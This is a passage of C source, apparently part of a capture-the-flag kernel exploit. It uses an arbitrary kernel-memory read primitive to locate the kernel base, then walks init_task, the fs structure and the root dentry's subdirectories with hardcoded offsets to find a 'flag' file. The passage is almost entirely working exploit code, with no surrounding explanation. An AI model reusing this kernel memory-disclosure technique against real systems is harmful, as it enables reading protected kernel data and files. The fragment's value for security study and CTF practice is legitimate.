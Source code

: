 ```

    	ret = read_kernel_memory(fd, id, kernel_addr, addr, BUF_SIZE);
    
    	if ( ret < 0 )
    	{
        	offset += 0x100000;
        	continue;
    	}
    	
    	printf("kernel_addr: %lx\n", (unsigned long)kernel_addr);
    	//hexdump(addr, BUF_SIZE);
        break;
    }

    /* long way to get to flag starts.. */
 
    unsigned long init_task_addr = kernel_addr + 0xc10480;

    unsigned long fs_addr = 0;
    ret = read_kernel_memory(fd, id, init_task_addr + 0x568, &fs_addr, 8);
    CHECKED(ret, "read fs");
    printf("fs @ 0x%lx\n", fs_addr);

    unsigned long root_dentry_addr = 0;
    ret = read_kernel_memory(fd, id, fs_addr + 0x30, &root_dentry_addr, 8);
    CHECKED(ret, "read root_dentry");
    printf("root_dentry @ 0x%lx\n", root_dentry_addr);

    /* we now have the root dentry, iterate through its subdirs, see where is the flag dentry */
    unsigned long root_subdirs = 0;
    ret = read_kernel_memory(fd, id, root_dentry_addr + 0xa0, &root_subdirs, 8);
    CHECKED(ret, "read root subdirs");
    printf("root subdirs @ 0x%lx\n", root_subdirs);

    unsigned long subdir = root_subdirs - 0x90;

    char flag_name_test_buf[10];
    unsigned long flag_dentry = 0;

    /* try prevs first, I found it more likely to be in prevs */
    while (1) {
      memset(flag_name_test_buf, 0, 10);
      unsigned int entry_name_size = 0;
      ret = read_kernel_memory(fd, id, subdir + 0x24, &entry_name_size, 4);
      CHECKED(ret, "read entry name size");
      printf("entry name size %d\n", entry_name_size);

      unsigned long entry_name_address = 0;
      ret = read_kernel_memory(fd, id, subdir + 0x24 + 4, &entry_name_address, 8);
      CHECKED(ret, "read entry name address");
      printf("entry name address @ 0x%lx\n", entry_name_address);

      ret = read_kernel_memory(fd, id, entry_name_address, flag_name_test_buf, entry_name_size);
      CHECKED(ret, "read entry name");

      printf("Found entry %s\n", flag_name_test_buf);

      if (!strcmp(flag_name_test_buf, "flag")) {
        /* found it */
        printf("Found flag dentry at 0x%lx\n", subdir);
        flag_dentry = subdir;
        break;
      }
```